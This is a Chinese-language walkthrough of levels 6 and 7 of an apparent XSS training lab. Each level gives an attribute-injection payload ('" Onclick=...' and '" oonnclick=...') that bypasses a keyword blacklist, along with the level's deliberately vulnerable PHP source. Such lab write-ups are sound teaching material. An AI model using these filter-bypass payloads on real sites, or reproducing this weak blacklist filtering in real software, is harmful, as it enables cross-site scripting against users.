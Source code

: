 ```php
" Onclick="window.alert()
```

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

过滤了<script,on,src,data,href

但是忽略了大小写的一些东西

所以绕过大小写,再来个闭合,就会很简单

# level7

```php
" oonnclick="window.alert()
```

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
